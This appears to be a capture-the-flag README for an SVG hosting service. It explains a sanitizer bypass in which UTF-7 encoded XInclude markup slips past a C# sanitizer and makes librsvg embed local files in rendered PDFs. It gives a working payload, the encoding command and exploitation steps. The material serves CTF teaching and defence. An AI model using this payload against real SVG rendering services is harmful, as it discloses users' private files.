

# svghᗣst
**svghᗣst** is a cute web service for drawing and hosting SVGs



HTTP API:
* /api/me — current user ID;
* /api/svg — read own's SVG or publish a new SVG;
* /api/pdf — preview public SVG;
* /api/list — list of published SVGs;

Users can draw and post public or private SVGs, read own's SVG and preview public SVG as PDF.
The flags are posted by the checksystem as private SVGs. So the user cannot read the flags directly.

# vuln
**svghᗣst** uses the latest version of `librsvg` as a SVG to PDF rendering engine.
Notice, that:
* SVG is an XML-based format;
* `librsvg` [processes](https://gitlab.gnome.org/GNOME/librsvg/-/blob/bf47971e680353d9c8e111dc3ee5a5fde8495d46/SECURITY.md#security-considerations-for-librsvg) references to external files by itself: XML XInclude, xlink:href attributes, etc (with some [restrictions](https://developer-old.gnome.org/rsvg/unstable/RsvgHandle.html#id-1.2.5.7.5.6)).

The documentation also says *"If your application has more stringent requirements, it may need to sandbox its use of librsvg"*.

Thats why **svghᗣst** uses [sanitization](https://github.com/HITB-CyberWeek/hitbsecconf-ctf-2021/blob/main/services/svghost/src/utils/svg/SvgSanitizer.cs) before reneding.
The problem is that UTF-8 is used in the sanitizer for decoding:
```cs
var doc = new XmlDocument {XmlResolver = null!};
doc.Load(XmlReader.Create(new StringReader(data), XmlSettings));
```
The `encoding` attribute from the XML header is ignored by `SvgSanitizer` but not by `librsvg`.

This is where UTF-7 comes into play. UTF-7 is an obsolete variable-length character encoding for representing Unicode text using a stream of ASCII characters.
It also can be used in our case as the `<` and `>` marks can be encoded as `+ADw-` and `+AD4-`, which bypasses the sanitization as simple text.

Try to put `1.txt` with some secret into current `data/*` directory and check this:
```sh
printf '<svg xmlns:xi="http://www.w3.org/2001/XInclude"><text><xi:include href="./1.txt" parse="text"/></text></svg>' | iconv -f utf-8 -t utf-7
```
```
+ADw-svg xmlns:xi+AD0AIg-http://www.w3.org/2001/XInclude+ACIAPgA8-text+AD4APA-xi:include href+AD0AIg./1.txt+ACI parse+AD0AIg-text+ACI-/+AD4APA-/text+AD4APA-/svg+AD4-
```
and post this XML to **svghᗣst** service:
```xml
<?xml version="1.0" encoding="utf-7"?>
<svg>+ADw-svg xmlns:xi+AD0AIg-http://www.w3.org/2001/XInclude+ACIAPgA8-text+AD4APA-xi:include href+AD0AIg./1.txt+ACI parse+AD0AIg-text+ACI-/+AD4APA-/text+AD4APA-/svg+AD4-</svg>
```
The XML declaration is skipped by sanitizer. The second SVG UTF-7 encoded root is considered by sanitizer as simple `#text` and is rendered by `librsvg`.

To exploit you need to list all private files, compose SVG with UTF-7 encoded includes (also notice, that **multiple** private files can be included in a **one** hacker's private file), taking into account that **overflowed text isn't rendered** (play with `font-size`, `textLength`, `transform="scale()"`, etc), post it, render it as PDF, and then parse PDF as text.

See full exploit here: https://github.com/HITB-CyberWeek/hitbsecconf-ctf-2021/blob/main/sploits/svghost/sploit.sh
